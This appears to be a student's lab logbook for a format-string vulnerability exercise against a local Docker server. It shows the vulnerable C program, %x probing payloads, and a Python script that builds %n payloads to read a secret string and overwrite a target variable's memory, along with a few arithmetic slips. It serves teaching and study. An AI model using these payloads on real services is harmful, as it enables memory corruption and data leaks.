 # Logbook 7
```c
unsigned int target = 0x11223344;
char *secret = "A secret message\n";
void myprintf(char *msg)
{
// This line has a format-string vulnerability
printf(msg);
}
int main(int argc, char **argv)
{
char buf[1500];
int length = fread(buf, sizeof(char), 1500, stdin);
printf("Input size: %d\n", length);
myprintf(buf);
return 1;
}
```
## Pre steps
- We executed the make file in servers

![Alt text](Images/1image-1.png)

 - We then built the docker

![Alt text](Images/1image.png)

 - In the next step we run the code that starts the server 

![Alt text](Images/image-1.png)

## Task 1
 - We tested the server using this code that was provided in the guide that sends Hello world to the server to the port 10.9.0.5 9090

![Alt text](Images/1image-2.png)

 - The output the server can shows a lot of stuff like it return properly and data that we will need in the next exercice

![Alt text](Images/1image-3.png)

To crach the server we simply ran the this code that makes echo of %s using this code the server will try to access a string with an address mostly invalid wich will crach the printf

![Alt text](Images/1image-4.png)

We can check that the function crashed because it didnt print the smiles

![Alt text](Images/1image-5.png)

## Task 2 A
To check how many %x we can put in the input until we used this code to check when we can see 41 wich is hechadecimal to A we used this file with the name Payload2.txt
```txt
AAAA %x - %x - %x - %x - %x - %x - %x - %x - %x - A %x - %x - %x - %x - %x -A %x - %x - %x - %x - %x -A %x - %x - %x - %x - %x - A %x - %x - %x - %x - %x - A %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x -1 %x
```

We can see four 41 in the last print of the server we needed 63 %x to get to the top of the input

![Alt text](Images/1image-6.png)

## Task 2 B
To use we used this code wich was already mostly done with the name buil_string.py and we changed a little bit of the code 
```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080b4008
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   63 of "%.8x", concatenated with a "%n"
s = "%.8x"*63 + "%s"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)

```
We runned the python code

![Alt text](Images/1image-8.png)

We executed the attack like this

![Alt text](Images/1image-7.png)

The output of the server was a success

![Alt text](Images/1image-9.png)

## Task 3 A

 - To change the memory in the addres we ran the previous python code that gives the address in binary 
 ```
number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

 ```
  - we add abcd next to the address and the 63 %x and we have our payload


 ```
hPabcd%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%n
 ```

 - We ran it and we got this response from the server

![Alt text](Images/1image-11.png)

### Task 3 B

 - In this exercice we will make a little change we need to change the variable to 0x5000 wich is 20480 give that he %n counts how many bytes where writen we need to put in the printf 20480 - 4 (for the 4 characters writeen) - 8 * 62(each %.16x prints 16 characters) so we get 20480 - 16 *62 - 4 = 
 ```python
number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
#content[4:8]  =  ("19900").encode('latin-1')

# This line shows how to construct a string s with
#20480 - 62 * 16 - 4= 19484
s = "%.16x"*62 + "%.19484x%n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)

 ```
 - This is the payload generated by the code with the address in the start is the address of the target variable and the value written in that palce is 16 * 62 + 19484 +4 = 20480 wich is 5000 in exadecimal
 ```
 hP%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.19484x%n
 ```
 - Here is the result of th output the target variable is changed to 0x00005000

 ![Alt text](Images/1image-12.png)